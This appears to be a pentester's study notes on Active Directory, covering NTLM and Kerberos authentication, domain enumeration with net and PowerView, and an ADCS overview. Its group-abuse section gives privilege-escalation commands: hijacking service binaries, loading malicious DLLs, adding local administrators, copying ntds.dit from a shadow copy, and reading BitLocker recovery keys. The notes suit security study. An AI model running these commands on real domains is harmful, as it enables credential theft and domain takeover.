 ```yaml
---
layout: blank
pagetitle: Active Directory Information
---
```


## AD Authentication

**NTLM**
- Used when authenticating via IP address (not hostname) or a hostname not present on the AD DNS server
- Steps are:
	- Calculate NTLM Hash
	- Send username to application server
	- App server sends nonce
	- Client encrypts nonce using their hash and sends both to app server
	- App server sends client response, username, and nonce to the DC (user's hash unknown)
	- DC encrypts nonce with NTLM hash (already known) of the user and compares to response
	- If valid, DC approves authentication

**Kerberos**
- Adopted from Kerberos v5 from MIT, used as primary auth method since 2003
- Uses a ticket system, DC acts as a Key Distribution Center (KDC)
- Rather than authenticating against the application, clients get a ticket from the KDC
- Steps:
	- Client sends Authentication Server Request (AS-REQ) to the DC
		- This contains a timestamp encrypted using the hash derived from the user's username and password
	- DC receives request and looks up the password hash of the user in the `ntds.dit` file, using it to decrypt the timestamp
	- If the decryption is successful and the timestamp is unique, auth is granted
	- DC then sends client an Authentication Server Reply (AS-REP), containing a session key and a ticket-granting ticket (TGT)
		- Session key can be decrypted with user hash and reused
		- TGT contains user and domain info, IP address of client, timestamp, and a session key
			- The TGT is encrypted using the NTLM hash of the krbtgt user
			- TGT is valid for 10 hours by default and is automatically renewed while session remains active
	- Client constructs a Ticket-Granting Service Request (TGS-REQ) consisting of the current user and timestamp encrypted with the session key, resource name, and encrypted TGT and sends that back to the DC/KDC
	- The DC then ensures the resource exists and decrypts the TGT with its secret key and extracts the session key for the username and timestamp of the request
	- The KDC then performs the following checks:
		- The TGT has a valid timestamp
		- The username from the TGS-REQ matches the username of the TGT
		- The client IP address coincides with the TGT IP address
	- If those checks pass, the KDC responds with a Ticket-Granting Server Reply (TGS-REP), containing three parts:
		- Name of the service access granted for
		- 2nd session key to be used between the client and service
		- Service ticket containing the username, group memberships, and 2nd session key
	- Now that the client has a session key and a service ticket, it sends the application an Application Request (AP-REQ) including the username/timestamp encrypted with the service ticket session key and the ticket itself
	- The application server decrypts the service ticket using its account password hash, extracting the username/session key, using the session key to decrypt the username from the AP-REQ. If they match, the service assigns the appropriate permissions to the user based on the group memberships in the ticket, and access is granted

## Manual Enumeration

**Enumeration using Windows Tools**
- `net user /domain` will display all domain user accounts
	- `net user {user} /domain`
		- This shows comments on a user, which can contain passwords
		- This also shows logon scripts, which can be interesting
- `net group /domain` will give us the domain groups
	- A group assigns permissions to resources (users and other groups)
	- `net group "{group}" /domain`
	- Some uncommon but useful groups:
		- https://ss64.com/nt/syntax-security_groups.html - all groups
		- AD Recycle Bin 
			- Can read deleted AD objects
			- `Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects`
			- `Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName={name})(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *`
		- (Enterprise) Key Admins
			- Used for managing Bitlocker keys
			- `Get-ADComputer -Filter * -Properties msFVE-RecoveryPassword | Select-Object Name, 'msFVE-RecoveryPassword'`
		- Pre–Windows 2000 Compatible Access
			- Can read most objects due to compatability
			- `Get-ADUser -Filter * -Properties MemberOf | Select-Object Name, MemberOf`
			- `Get-ADObject -LDAPFilter "(&(objectCategory=Person)(objectClass=user))" -Properties *`
		- Server Operators
			- Can modify service binaries and restart them
			- `sc.exe config YourServiceName binPath= "C:\path\to\malicious\binary.exe"`
			- `sc.exe start YourServiceName`
		- Print Operators
			- Can be good for DLL hijacking
			- `rundll32.exe C:\path\to\malicious.dll,MainEntryPoint`
		- Account Operators
			- Can add permissions to users or users to groups, such as becoming a local Administrator or managing a service running with higher privileges
			- `net localgroup Administrators TargetUser /add`
			- `sc.exe sdset "ServiceName" "D:(A;;CCLCRPRC;;;S-1-5-21-[SID of TargetUser])"`
		- Backup Operators
			- Can backup sensitive files, like NTDS.dit
			- `vssadmin create shadow /for=C:` 
			- `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\Temp\ntds.dit`
		- Dns Admins
			- Can perform dll hijacking to priv esc
			- `dnscmd /config /serverlevelplugindll \\malicious\share\malicious.dll`


## Enumeration with PowerView
- https://powersploit.readthedocs.io/en/latest/Recon/
- https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
	- Import it using `Import-Module .\PowerView.ps1`
	- Don't wget the mf repo dumbass
- Enumeration commands
	- `Get-NetDomain` - gives basic domain info
	- `Get-NetUser` - lists users within the domain
		- Lotta info, so select the user (and other info) with `Get-NetUser | select CN,pwdlastset,lastlogon`
		- List descriptions: `Get-NetUser | Select-Object SamAccountName, Description`
		- Can also list service users with `-SPN`
	- `Get-NetGroup` - enumerate groups
	- `Get-NetComputer` - enumerate computer objects in the domain
		- `Get-NetComputer | select operatingsystem,dnshostname`
		- For all IPs `Get-NetComputer | ForEach-Object { $_.dnshostname | ForEach-Object { [System.Net.Dns]::GetHostAddresses($_) | Select-Object IPAddressToString } }`
	- `Find-LocalAdminAccess` - determines if our user has administrative permissions on any computers in the domain
		- Uses the Service Control Manager, which maintains database of installed services and drivers on all Windows computers
        - `PsLoggedOn.exe` - uses Remote Registry service to enumerate registry keys to see who's logged on to a system
        	- Not enabled by default on workstations since Windows 8, but it enabled by default on servers like 2012, 2016, 2019, and 2022
        	- Usage: `.\PsLoggedOn.exe \\{computer name}`
        	- Works well with `Find-LocalAdminAccess` since we know where to target user hashes
	- `Get-NetSession -ComputerName {computername} -Verbose `
		- This one can return no data/wrong data depending on permissions
	- `Get-ObjectAcl -Identity {user} > output.txt` - Returns all access control entries (forming an Access Control List) for the user
		- `Convert-SidToName` will convert a SID to a domain name object
		- `ActiveDirectoryRights` can be pretty interesting, as `GenericAll` is the highest access permissions for an object
			- `Get-ObjectAcl -Identity {identity} | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights` will show all SIDs that have GenericAll for the `identity` passed
				- The `identity` passed can be something like a domain group or user
			- Can then `{sid} | Convert-SidToName` to see what objects have those permissions on that identity
				- Can also just `Get-ObjectAcl -Identity "{identity}" | Where-Object { $_.ActiveDirectoryRights -eq "GenericAll" } | Select-Object -ExpandProperty SecurityIdentifier | Convert-SidToName`
	- `Find-DomainShare` will list all domain shares
		- Domain shares can be shared folders/files, printers, or other resources
		- Look for interesting shares, like NETLOGON, SYSVOL, backups, docshares, or tools
		- Can view internals using `ls \\{domain}\{share}` and read files with `cat`
			- Will sometimes find encrypted Group Policy Preferences passwords, which have a known key and can be decrypted in kali with `gpp-decrypt`


## ADCS

**Overview of ADCS**
- ADCS implements Public Key Infrastructure (PKI) in Windows domains, providing certificates for secure communication, user authentication, and more.
- It integrates tightly with Active Directory, enabling automated certificate issuance and renewal.
- Common uses include:
    - Smart card logon
    - Encrypting File System (EFS)
    - Wi-Fi and VPN authentication

**Key Components**
- Certificate Authority (CA): Issues, revokes, and manages certificates.
- Enrollment Services: Allows users and computers to request certificates via interfaces like the Certificate Enrollment Web Service (CES).
- Certificate Templates: Define certificate properties, validity periods, and permissions.